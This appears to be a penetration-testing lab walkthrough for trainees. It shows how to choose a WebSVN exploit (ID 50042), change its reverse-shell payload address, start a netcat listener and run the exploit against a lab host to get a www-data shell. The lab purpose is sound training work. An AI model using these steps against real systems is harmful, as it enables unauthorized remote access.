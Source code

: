 WebSVN has promising exploits, namely the last one on the list with the ID 50042.

﻿![image](https://github.com/user-attachments/assets/ca65114b-dedb-4ca9-9f28-dd11d7b8b9a0)



Apache subversion does not have any exploits that may be applicable; both options are DoSs and the scenario calls for checking for unauthorized remote access.

![image](https://github.com/user-attachments/assets/81443664-45ce-4fad-bdbb-c9b06faf1db3)


------------------------------------

Modification Walkthrough
The full path to the exploit can be found by running the following command:

(trainee@dmss-kali)-[~] $ searchsploit -p 50042
﻿

After getting the path, the exploit script can be viewed, which is shown  in Figure 7.2-25:


![image](https://github.com/user-attachments/assets/c2be7495-c086-4be7-b59a-e8907b6a9563)

Notice that line 14 beginning with PAYLOAD has a default IP address that needs to be changed. The port can be changed as well. Line 28 is also an acceptable answer because line 28 is where the PAYLOAD variable is used.


Make sure to modify copies of the exploit to prevent any unintended modification of the original. The modified script is shown in Figure 7.2-26:

![image](https://github.com/user-attachments/assets/fecca07f-e616-4d9d-831f-376dc62a2da4)


-------------------------------------

Executing the Exploit
The listener needs to be started first, which can be done with the following command:

(trainee@dmss-kali)-[~] $ nc -nlvp 4444
﻿

Then the exploit can be run by using the following command:

(trainee@dmss-kali)-[~] $ python3 50042.py http://190.13.1.9/****

![image](https://github.com/user-attachments/assets/7277bb33-cfe0-4da7-9544-f00b6759c393)


Once the exploit is run, a connection can be seen in the terminal running Netcat.


![image](https://github.com/user-attachments/assets/d542d4a0-8aee-4011-9fc1-72edf0b66c2e)


If desired, functionality can be confirmed by running commands:
www-data@5346ab610561:/var/www/websvn$ whoami

![image](https://github.com/user-attachments/assets/834aa089-4b18-4928-aece-95634d51d6d9)
